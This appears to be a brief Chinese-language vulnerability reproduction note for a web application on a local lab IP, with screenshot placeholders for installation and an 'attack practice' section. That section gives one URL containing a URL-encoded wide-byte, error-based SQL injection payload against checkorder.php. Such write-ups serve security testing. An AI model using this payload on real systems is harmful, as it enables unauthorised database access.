
# 实战
在浏览器输入
```
http://IP:PORT/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)



## 攻击实战

在浏览器输入
```
http://192.168.1.170:7777/api/checkorder.php?username=%ce%27%20and%201=2%20union%20select%201%20and%20%28select%201%20from%28select%20count%28*%29,concat%28%28Select%20md5(3.1415)%20%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%20%23
```




![image]({path}/4.png)

